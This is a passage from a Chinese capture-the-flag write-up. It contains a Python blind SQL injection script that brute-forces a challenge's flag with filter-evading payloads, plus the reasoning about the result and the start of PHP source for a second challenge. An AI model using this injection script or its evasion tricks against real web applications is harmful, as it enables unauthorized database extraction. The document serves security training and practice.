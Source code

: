 ```python
```

得长度为 13，爆 flag 内容：

```python
import requests
import string

success = 'You are in'
url = 'http://ctf5.shiyanbar.com/web/earnest/index.php'
chrset = string.digits + string.ascii_lowercase + r'_~=+-*/{\}?!:@#$%&()[],.'
flag = ''

for i in range(1, 14):
  for j in chrset:
    val = "0'oorr((select(mid((fl$4g)from(%s)foorr(1)))from(fiag))='%s')oorr'0" % (i, j)
    data = {'id': val.replace('', chr(0x0a))}
    print(data)
    r = requests.post(url, data=data)
    if success in r.text:
      flag += j
      print(flag)
      break
```

得到 `flag{haha~you`，很明显并不完整。将数字改大后再跑一次，得到 `flag{haha~you-win}----`，注意到右花括号后面是若干个 `-`，应该忽略。提交后发现答案错误。

这时候就需要考虑右花括号后面全都是 `-` 的原因了。我们构造的 payload，简化后写出来就是：

```
"0' or (select mid(fl$4g from(i) for(1)) from fiag) = '-' or '0
```

其中 `i` 是数字，表示 `fl$4g` 的第 `i` 个字符。当显示 `You are in` 时停止，也就是说此时，下面这个值为 `True`：

```sql
(select mid(fl$4g from(i) for(1)) from fiag) = '-'
```

当 `i` 大于等于 20 时，显然此时 `fl$4g` 这一列的对应内容已经为空了，但是却依然能等于 `-`。这说明服务端通过某种方式将空格转义成了 `-`。因此真正的 flag 应该进行反转义，得到 `flag{haha~you win!}`。

## 你真的会 PHP 吗？

响应头中有提示 `6c525af4059b4fe7d8c33a.txt`，得到代码：

```php
<?php

$info = "";
$req = [];
$flag="xxxxxxxxxx";

ini_set("display_error", false);
error_reporting(0);

if(!isset($_POST['number'])){
   header("hint:6c525af4059b4fe7d8c33a.txt");

   die("have a fun!!");
}

foreach([$_POST] as $global_var) {
    foreach($global_var as $key => $value) {
        $value = trim($value);
        is_string($value) && $req[$key] = addslashes($value);
    }
}
```